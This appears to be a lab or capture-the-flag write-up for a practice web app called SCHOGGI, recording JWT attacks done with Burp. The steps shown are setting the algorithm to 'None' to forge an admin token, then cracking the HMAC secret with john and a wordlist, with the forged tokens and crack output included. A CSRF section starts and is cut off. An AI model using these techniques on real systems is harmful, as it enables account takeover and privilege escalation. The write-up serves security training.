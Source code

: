 # SCHOGGI: JWT Vulnerability 1

- watched Request and Response of the `/api/account` via Burp Proxy
- used Repeater and changed JWT Algo to `None`
- by doing so we could iterate through the `uid` and `105` is an admin
- the signature is recalculated and replaced value inside the Storage in Firefox

```json
eyJ0eXAiOiJKV1QiLCJhbGciOiJOT05FIn0.eyJqdGkiOiIxYTZkODhiZS0xMjFkLTQzYmEtODU1ZC1kMmZiZDgwNWY1OTYiLCJ1aWQiOjEwNSwiZXhwIjoxNzAzMDEwNDczfQ.
```

- after that we could access the profile page of the `admin victor`

# SCHOGGI: JWT Vulnerability 2

- watched Request and Response of the `/api/account` via Burp Proxy
- saved the JWT to a file and used `john` to get the _MAC Password_
- the result was that the _MAC Password_ is `pyramid`

```sh
> john --format=HMAC-SHA256 --wordlist=10-million-password-list-top-10000.txt lab08_challenge02_jwt
Using default input encoding: UTF-8
Loaded 1 password hash (HMAC-SHA256 [password is key, SHA256 128/128 SSE2 4x])
Will run 8 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
pyramid          (?)
1g 0:00:00:00 DONE (2023-12-20 07:00) 50.00g/s 409600p/s 409600c/s 409600C/s 123456..lobo
```

- from there we used the _MAC Password_ and recalculated the JWT of the `uid=105` because we already know that this is an admin
- the signature is recalculated and replaced value inside the Storage in Firefox

```json
eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJqdGkiOiIzMzcwNmFiMC0xNDg2LTQ4ZmYtOGE2Ni1kYzA4ODk0NmFhYjUiLCJ1aWQiOjEwNSwiZXhwIjoxNzAzMDU0MjUxfQ.4d7hSiOucVXb-yKkZjLUdtH_bm9Vim3wkaHdvo2bB9w
```

- after that we could access the admin page of the admin user `victor`

# SCHOGGI: Cross-Site Request Forgery (CSRF) with JSON

- watched Request and Response of the `/api/account` via Burp Proxy
